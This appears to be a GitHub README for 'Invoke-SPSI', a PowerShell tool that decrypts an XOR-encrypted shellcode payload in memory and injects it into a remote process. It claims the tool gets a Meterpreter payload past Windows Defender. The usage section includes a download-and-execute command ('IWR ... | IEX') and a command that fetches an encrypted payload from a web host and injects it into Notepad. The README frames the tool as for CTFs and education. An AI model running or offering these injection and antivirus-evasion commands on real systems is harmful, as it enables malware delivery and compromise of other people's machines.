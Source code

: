 # Invoke-SPSI - Simple PowerShell Shellcode Injector

Basic PowerShell script that decrypts an XOR-encrypted payload in memory, then uses a .NET-based D/Invoke implementation to call Win32 APIs for injecting shellcode into a remote process.

This script is a good example of how a fully updated Windows Defender can still be bypassed using a highly signatured Meterpreter payload and a very simple injection method.

**Do not use in real engagements.** The main focus is CTFs and very lightweight infrastructures.  
It will **not** bypass modern EDR solutions or paid antivirus products.

---

<p align="center">
    <img src="images/image.png" alt="demo" width="700">
</p>

## Usage
1. Encode your payload with XOR:
```python
python3 xor.py -i calc.bin -k f62f054feab9fc06424fa3a2795d7286 -o calc.enc
```
2. Load Invoke-SPSI.ps1 in Powershell:
```powershell
#1 web
IWR -uri http://example.com/Invoke-SPSI.ps1 | IEX
#2 local file
Get-Content C:\Invoke-SPSI.ps1 -Raw | IEX
```
3. Invoke and pass arguments:
```powershell
#1 fetch payload from web
Invoke-SPSI -url http://example.com/payload.enc -TargetProcess Notepad -key f62f05...
#2 fetch payload from local file
Invoke-SPSI -File C:\payload.enc -TargetProcess Notepad -key f62f05...
```
---

## Disclaimer
For educational purposes only.  
The author is not responsible for any misuse of this code.
